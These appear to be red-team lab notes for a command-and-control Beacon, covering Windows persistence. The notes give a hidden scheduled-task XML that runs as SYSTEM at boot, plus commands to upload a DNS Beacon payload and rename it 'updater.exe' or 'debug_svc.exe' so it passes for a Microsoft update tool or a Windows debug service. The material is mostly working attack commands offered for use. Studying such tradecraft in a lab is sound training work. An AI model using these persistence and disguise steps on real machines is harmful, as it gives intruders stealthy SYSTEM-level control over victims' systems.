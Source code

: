 - Save the following XML template to the Attacker Desktop (e.g. C:\Payloads\task.xml)

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<Triggers>
    <BootTrigger>
        <Enabled>true</Enabled>
    </BootTrigger>
</Triggers>
<Principals>
    <Principal>
        <UserId>NT AUTHORITY\SYSTEM</UserId>
        <RunLevel>HighestAvailable</RunLevel>
    </Principal>
</Principals>
<Settings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
</Settings>
<Actions>
    <Exec>
        <Command>"C:\Program Files\Microsoft Update Health Tools\updater.exe"</Command>
    </Exec>
</Actions>
</Task>
```

- Change Beacon's current working directory.
    
    1. cd C:\Program Files\Microsoft Update Health Tools
-  Upload a DNS Beacon payload.
    
    1. upload C:\Payloads\dns_x64.exe
-  Rename the payload to something you think will help it to blend in.
    
    1. mv dns_x64.exe updater.exe
-  Create the scheduled task.
	- schtaskscreate \Microsoft\Windows\WindowsUpdate\Updater XML CREATE

>A file dialogue window will appear for you to select the XML file.

- Delete the task.
	1. schtasksdelete \Microsoft\Windows\WindowsUpdate\Updater TASK
`
### Windows Services
- Change Beacon's current working directory.
    
    1. cd C:\Windows\System32
-  Upload a DNS Beacon service payload.
    
    1. upload C:\Payloads\dns_x64.svc.exe
-  Rename the payload to something you think will help it to blend in.
    
    1. mv dns_x64.svc.exe debug_svc.exe
-  Create the service.
    
    1. sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3
-  Reboot [Workstation 1](https://labclient.labondemand.com/Instructions/a126970d-71bf-4cde-ab34-c63d28b0c4b1?showWhenStarting=1#) and a new SYSTEM Beacon should appear.
    
-  Delete the service.
    
    1. sc_delete dbgsvc
